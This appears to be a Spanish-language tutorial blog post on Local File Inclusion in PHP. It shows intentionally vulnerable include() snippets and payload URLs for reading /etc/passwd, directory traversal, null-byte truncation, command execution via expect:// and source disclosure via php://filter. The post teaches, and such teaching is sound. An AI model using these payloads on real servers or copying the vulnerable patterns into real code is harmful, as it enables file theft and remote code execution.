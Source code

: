 ```yaml
---
title: Local File Inclusion (LFI)
published: true
---
```


La vulnerabilidad _Local File Inclusion_, _LFI_ por sus siglas en inglés, permite a un atacante leer archivos del servidor vulnerable. Esta afección se produce debido a malas prácticas durante la programación de una página web. 

Dependiendo de la gravedad, esta vulnerabilidad puede llevar al atacante a:
	
* RCE (Remote Code Execution)
* [XSS] (https://mateonitro550.github.io/Cross-Site-Scripting%28XSS%29) (Cross-Site Scripting)
* DoS (Denial Of Service)

Un ejemplo muy básico sería el siguiente script en _PHP_.

```php
<?php
	$file = $_GET['filename'];
	include($file);
?>
```

Script, del que podemos abusar para leer cualquier archivo del sistema, en este caso el `/etc/passwd`.

```
localhost/lfi.php?filename=/etc/passwd
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/1.png)

Es importante aclarar que esta no es solo una vulnerabilidad de _PHP_, también está presente en otros lenguajes como lo es _JSP_ o _ASP_.

### [](#header-3)Directory Path Traversal

Es posible que en el código, se nos limite a acceder a archivos que se ubican únicamente en una ruta preestablecida en el script, en este caso `/var/www/html/`.

```php
<?php
	$file = $_GET['filename'];
	include("/var/www/html/" . $file);
?>
```

Sin embargo, podemos "escaparnos" de la ruta preestablecida si añadimos `../` en nuestra cadena de ataque, pudiendo así listar contenido más allá de `/var/www/html/`.

```
localhost/lfi.php?filename=../../../etc/passwd
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/2.png)

### [](#header-3)Null Byte

De igual manera, es posible que en el código se nos limite a acceder a archivos de determinada extensión, en este caso archivos de extensión `.php`.

```php
<?php
	$file = $_GET['filename'];
        include($file . ".php");
?>
```

De modo que cuando intentemos leer el archivo `/etc/passwd`, o cualquier otro archivo del sistema, lo que estariamos leyendo en realidad sería el archivo `/etc/passwd.php`, el cual no existe. 

Sin embargo, si añadimos el nullbyte `%00` al final de nuestra cadena de ataque, el `.php` no será tenido en cuenta, pudiendo así leer con normalidad el `/etc/passwd`, o cualquier otro archivo del sistema.

```
localhost/lfi.php?filename=/etc/passwd%00
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/3.png)

### [](#header-3)Wrappers

_PHP_ cuenta con una serie de _wrappers_, los cuales a menudo pueden ser abusados, por mencionar algunos tenemos:

#### [](#header-4)expect://

Nos permite una ejecución remota de comandos (RCE); cabe aclarar que este _wrapper_ no está activado por defecto, por lo que no siempre será posible utilizarlo.

```
localhost/lfi.php?filename=expect://whoami
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/4.png)

#### [](#header-4)filter://

Nos permite codificar archivos del sistema a través de diferentes métodos como podría ser _Base64_ o _ROT13_. 

Este _wrapper_ resulta bastante útil si necesitamos leer un archivo en _PHP_, ya que recordemos, este es un lenguaje interpretado, por lo que si intentáramos leer un archivo _PHP_ del servidor vulnerable, lo que veríamos sería simplemente el output del script.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/5.png)

```
localhost/lfi.php?filename=php://filter/convert.base64-encode/resource=filterWrapper.php
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/6.png)

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/7.png)
